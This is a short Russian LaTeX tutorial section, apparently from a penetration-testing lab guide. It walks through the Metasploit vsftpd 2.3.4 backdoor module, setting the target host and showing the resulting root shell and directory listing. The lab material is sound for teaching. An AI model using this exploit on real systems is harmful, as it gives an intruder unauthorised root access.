 \documentclass[10pt,a4paper]{report}
\begin{document}
\subsubsection{Получить консоль, используя уязвимость в vsftpd}
Чтобы получить консоль, используя уязвимость в vsftpd существует эксплоит.
\begin{verbatim}
exploit/unix/ftp/vsftpd_234_backdoor
\end{verbatim}
Ниже показано использование эксплоита, установка опций (адреса удаленного хоста).
\begin{verbatim}
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.0.103
RHOST => 192.168.0.103
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (192.168.0.102:39102 -> 192.168.0.103:6200) at 2016-04-02 10:28:45 -0400
\end{verbatim}
После доступна консоль удаленного хоста, введем любую команду, например ls для получения файлов в текущей директории. 
\begin{verbatim}
ls -l
total 89
drwxr-xr-x   2 root root  4096 May 13  2012 bin
drwxr-xr-x   4 root root  1024 May 13  2012 boot
lrwxrwxrwx   1 root root    11 Apr 28  2010 cdrom -> media/cdrom
drwxr-xr-x  14 root root 13520 Apr  2 08:42 dev
drwxr-xr-x  95 root root  4096 Apr  2 07:41 etc
drwxr-xr-x   6 root root  4096 Apr 16  2010 home
drwxr-xr-x   2 root root  4096 Mar 16  2010 initrd
lrwxrwxrwx   1 root root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x  13 root root  4096 May 13  2012 lib
drwx------   2 root root 16384 Mar 16  2010 lost+found
drwxr-xr-x   4 root root  4096 Mar 16  2010 media
drwxr-xr-x   3 root root  4096 Apr 28  2010 mnt
-rw-------   1 root root 15194 Apr  2 07:41 nohup.out
drwxr-xr-x   2 root root  4096 Mar 16  2010 opt
dr-xr-xr-x 117 root root     0 Apr  2 07:40 proc
drwxr-xr-x  13 root root  4096 Apr  2 07:41 root
drwxr-xr-x   2 root root  4096 May 13  2012 sbin
drwxr-xr-x   2 root root  4096 Mar 16  2010 srv
drwxr-xr-x  12 root root     0 Apr  2 07:40 sys
drwxrwxrwt   4 root root  4096 Apr  2 09:08 tmp
drwxr-xr-x  12 root root  4096 Apr 28  2010 usr
drwxr-xr-x  15 root root  4096 May 20  2012 var
lrwxrwxrwx   1 root root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server
^C
Abort session 2? [y/N]  y

[*] 192.168.0.103 - Command shell session 2 closed.  Reason: User exit
\end{verbatim}
\end{document}
